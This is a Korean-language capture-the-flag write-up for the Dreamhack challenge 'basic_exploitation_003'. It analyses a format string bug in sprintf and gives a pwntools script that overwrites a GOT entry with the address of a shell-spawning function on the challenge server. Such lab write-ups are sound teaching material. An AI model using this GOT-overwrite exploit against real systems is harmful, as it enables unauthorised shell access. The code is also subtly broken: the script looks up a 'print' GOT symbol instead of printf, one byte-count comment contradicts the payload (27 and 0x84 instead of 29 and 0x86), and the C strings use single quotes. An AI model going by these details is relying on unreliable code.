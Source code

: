 # basic_exploitation_003 - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 1
- Provided Files: basic_exploitation_003.c, basic_exploitation_003(ELF)
- tools:
## Brief Description
## Initial Analysis
### Environment
``` sh
checksec basic_exploitation_003
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts('TIME OUT');
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system('/bin/sh');
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf('ECHO : %s\n', stack_buf);
    return 0;
}
```
## Vulnerability
### FSB(Format String Bug)
``` c
sprintf(stack_buf, heap_buf);
```
복사할 때, FSB 취약점이 발생한다.  
## Exploit
### Strategy
공격 방법은 2가지로 다음과 같다.  
1. `ra`를 `get_shell` 주소로 변경
2. `printf_got`를 `get_shell` 주소로 변경

두 번째 방법으로 공격을 사용할 것이다. 
### Exploitation Steps
``` sh
$ ./basic_exploitation_003
AAAA AAAA %x %x %x %x %x %x %x %x %x %x
ECHO : AAAA AAAA 41414141 41414120 31342041 31343134 34203134 34313431 20303231 34333133 31343032 33313320
```
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x4 |
| ebp |  |
| heap_buf | -0x8 |
| stack_buf | -0x98 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 20953) 
context.arch = 'i386'

e = ELF('./basic_exploitation_003')

# payload
print_got = e.got['print'] # 0x0804a010 
payload = b''
payload += p32(print_got + 0) # 0x0804a010 -> size: 4byte 
payload += p32(print_got + 1) # 0x0804a011 -> size: 4byte 

get_shell = e.symbols['get_shell'] # 0x08048669, 0x86 = 134, 0x69 = 105
payload += b'%97c%1$hhn' # address: 0x0804a010 -> value: 8(payload 앞 부분 8byte) + 97 = 105 = 0x69
payload += b'%29c%2$hhn' # address: 0x0804a011 -> value: 105 + 27 = 134 = 0x84
p.sendline(payload)

# print(repr(payload))
p.interactive()
```